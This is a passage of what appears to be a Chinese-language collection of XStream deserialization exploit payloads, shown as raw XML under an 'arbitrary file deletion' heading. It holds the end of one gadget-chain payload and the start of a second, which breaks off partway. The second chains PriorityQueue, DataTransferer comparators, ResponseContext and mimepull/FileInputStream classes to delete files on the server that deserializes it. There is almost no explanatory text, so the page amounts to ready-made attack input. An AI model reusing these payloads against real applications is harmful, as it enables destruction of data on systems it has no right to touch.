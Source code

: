```xml
                        <satellites></satellites>
                        <invocationProperties></invocationProperties>
                    </packet>
                </indexMap>
            </comparator>
        </default>
        <int>3</int>
        <string>javax.xml.ws.binding.attachments.inbound</string>
        <string>javax.xml.ws.binding.attachments.inbound</string>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

##### 任意文件删除

```xml
<java.util.PriorityQueue serialization="custom">
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class="sun.awt.datatransfer.DataTransferer$IndexOrderComparator">
                <indexMap class="com.sun.xml.internal.ws.client.ResponseContext">
                    <packet>
                        <message class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart">
                            <dataSource class="com.sun.xml.internal.ws.encoding.MIMEPartStreamingDataHandler$StreamingDataSource">
                                <part>
                                    <dataHead>
                                        <tail/>
                                        <head>
                                            <data class="com.sun.xml.internal.org.jvnet.mimepull.MemoryData">
                                                <len>3</len>
                                                <data>AQID</data>
                                            </data>
                                        </head>
                                    </dataHead>
                                    <contentTransferEncoding>base64</contentTransferEncoding>
                                    <msg>
                                        <it class="java.util.ArrayList$Itr">
                                            <cursor>0</cursor>
                                            <lastRet>1</lastRet>
                                            <expectedModCount>4</expectedModCount>
                                            <outer-class>
                                                <com.sun.xml.internal.org.jvnet.mimepull.MIMEEvent_-EndMessage/>
                                                <com.sun.xml.internal.org.jvnet.mimepull.MIMEEvent_-EndMessage/>
                                                <com.sun.xml.internal.org.jvnet.mimepull.MIMEEvent_-EndMessage/>
                                                <com.sun.xml.internal.org.jvnet.mimepull.MIMEEvent_-EndMessage/>
                                            </outer-class>
                                        </it>
                                        <in class="java.io.FileInputStream">
                                            <fd/>
                                            <channel class="sun.nio.ch.FileChannelImpl">
                                                <closeLock/>
                                                <open>true</open>
                                                <threads>
                                                    <used>-1</used>
                                                </threads>
```
